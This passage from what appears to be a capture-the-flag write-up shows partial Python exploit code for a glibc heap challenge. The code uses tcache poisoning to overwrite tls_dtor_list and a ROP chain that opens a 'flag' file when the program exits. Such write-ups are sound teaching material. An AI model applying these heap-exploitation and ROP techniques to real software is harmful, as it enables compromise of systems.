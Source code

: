 We need to change the heap address to make it point to a chunk containing string "flag". Let's change the data of chunk when we overwrite `tls_dtor_list`:

```python
### Overwrite tls_dtor_list

alloc(0x18, b'6'*8)
delete(6)
delete(3)
payload = flat(
	((heap + 0x7c0) >> 12) ^ (libc.sym['fs'] - 0x60)
	)
update(2, 0x18, payload)
alloc(0x18, b'flag\0\0\0\0')
alloc(0x18, b'6'*8 + p64(heap + 0x7e0))
```

So the address of "flag" will be at `heap + 0x7c0`:

```python
### Create fake dtor_list

...

payload = flat(
    
    ...

    # open("flag", 0, 0)
    pop_rax, 2,
    pop_rdi, heap + 0x7c0,    # Pointer of "flag"
    pop_rsi, 0,
    pop_rdx_rbx, 0, 0,

    ...

```

And we just need to exit the program to execute our ROPchain:

![execute-ropchain.png](images/execute-ropchain.png)
